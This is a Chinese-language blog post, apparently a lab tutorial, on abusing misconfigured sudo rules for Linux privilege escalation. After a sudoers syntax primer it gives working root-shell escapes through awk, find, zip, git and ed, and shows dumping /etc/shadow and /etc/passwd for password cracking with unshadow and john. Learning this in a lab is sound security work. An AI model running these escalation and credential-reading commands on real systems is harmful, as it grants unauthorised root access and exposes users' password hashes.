sudo滥用提权
上次复现并学习了脏牛提权，这次再整理一下sudo滥用提权的相关内容
关于sudo
sudo是linux系统管理指令，是允许系统管理员让普通用户执行一些或者全部的root命令的工具如halt，reboot，su等等。
要想使一个用户具有使用sudo的能力，需要root用户将其名字，所能执行的命令，按照哪种用户或用户组的身份执行等信息注册到/etc/sudoers中
关于sudoers
sudoers文件主要有三部分组成：
sudoers的默认配置（default） 主要设置sudo的一些缺省值
alias（别名），主要有Host_Alias|Runas_Alias|User_Alias|Dmnd_Alias
安全策略（规则定义）
语法：
1 | root ALL=(ALL) ALL |
解释：root用户可以从 ALL（任意）终端作为ALL（任意）用户执行ALL（任意）命令
即 用户 终端 可充当的用户 使用时可以运行的命令
1 | root ALL=(ALL:ALL) ALL |
解释：root这一句与上面不同的就是root用户可以从 ALL（任意）终端作为ALL（任意）用户，ALL（任意）组执行ALL（任意）命令
hacker同上，因此此时的hacker就相当于root用户了
1 | hacker ALL=(root) NOPASSWD: /usr/bin/awk |
解释：hacker用户可以从 ALL（任意）终端作为root用户无密码执行awk命令
查看用户能以root权限运行的命令
1 | sudo -l |
sudo提权命令
wget、find、cat、apt、zip、xxd、time、taskset、git、sed、pip、ed、tmux、scp、perl、bash、less、awk、man、vi、env、ftp、ed、screen
就先到这里，以后具体的例子会单独找案例进行分析
更新，这里直接搭建一个环境，把常见的总结一下吧，后面遇到了再继续补充
复现与总结
1 | hacker ALL=(root) NOPASSWD: /usr/bin/awk |
搭建环境
首先新建一个用户hacker，vim /etc/sudoers并在/etc/sudoers中加入以上的代码

先给靶机上的hacker用户修改个密码 passwd hacker
su hacker输入密码，切换成hacker，这就复现出我们一个刚刚进到一个新的系统中的情形，只有一个普通用户，然后我们需要提权

sudo -l查看允许当前用户使用的命令，这里我们主要寻找能以root权限执行的命令，如下图，那么，下面我们就一个一个来实践进行提权

awk
awk的相应提权方法为：
1 | sudo awk 'BEGIN{system("/bin/bash")}' |

提权成功！
find
find的相应提权命令为：
1 | sudo find /home -exec /bin/bash \; |

提权成功！
cat
cat比较麻烦一点，我们可以使用cat查看文件/etc/shadow找到加密后的用户名密码，之后再用john破解
演示：1.使用sudo cat /etc/shadow >> 1.txt 读取shadow文件到1.txt中

sudo cat /etc/passwd >> 2.txt 读取passwd文件到2.txt

使用unshadow 2.txt 1.txt >> passwd.txt将两个文件整合到一起为passwd.txt

关于unshadow的使用：
2.使用john破解密码：
这里实现的时候有些问题，有时候快有时候慢，等解决了再过来补充
zip
这里就是解压缩命令zip了，首先安装zip命令apt install zip

有就不用了
使用touch 2.txt 创建一个2.txt,并使用zip 1.zip 2.txt 生成一个1.zip


使用
1 | sudo 1.zip 2.txt -T --unzip-command="sh -c /bin/bash" |

提权成功
git
git就比较简单了首先使用
1 | sudo git help add |

命令，进入到该页面

在此处输入!/bin/bash


提权成功
ed
安装ed

在sudoers中加入ed，这就不多说了

更简单sudo ed 并输入!/bin/bash

运行

提权成功！
未完待续……